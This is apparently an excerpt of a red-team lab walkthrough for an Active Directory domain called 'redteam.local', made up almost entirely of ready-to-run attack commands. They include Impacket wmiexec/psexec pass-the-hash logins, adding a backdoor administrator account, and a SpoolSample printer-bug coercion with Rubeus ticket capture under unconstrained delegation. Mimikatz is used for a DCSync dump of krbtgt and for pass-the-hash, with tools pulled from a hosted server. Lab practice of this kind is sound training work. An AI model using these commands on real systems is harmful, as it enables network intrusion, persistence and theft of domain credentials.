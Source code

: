 ```
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes :{NT hash} redteam.local/adm_mgmtserver@192.168.0.31
```

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes :{NT hash} redteam.local/adm_mgmtserver@192.168.0.31
```

### Add user (to allow login via RDP)
```
net user {Username} {Password} /add && net localgroup Administrators {Username} /add
```

## WEB01
### Find credentials in file in ```C:\Users\Administrator\Desktop\``` (MGMT01)

## DC01
### Detect if spoolss is enabled on the DC

Execute in Powershell:
```
dir \\DC01\pipe\spoolss
```

### SpoolSample attack via Unconstrained Delegation via WEB01
Retrieve Rubeus.exe / SpoolSample.exe / Mimikatz.exe from ```http://192.168.0.37``` (PORTAL01 machine) or from your own hosted server (```http://192.168.100.1```)

Execute as Administrator:
```
.\Rubeus.exe monitor /interval:5 /filteruser:DC01$ /nowrap
```

Execute in a second cmd window (not necessarily as admin):
```
.\SpoolSample.exe DC01 WEB01
```

Extract the ticket from the origianl Rubeus window
```
.\Rubeus.exe ptt /ticket:{ticket}
```

Use ticket to execute DCSync attack
```
.\mimikatz.exe
    lsadump::dcsync /domain:redteam.local /user:redteam\{krbtgt|adm_dc}
```

### Login to DC01 via PTH
```
.\mimikatz.exe
    privilege::debug
    sekurlsa::pth /user:{user} /domain:redteam.local /ntlm:{NT hash}
```
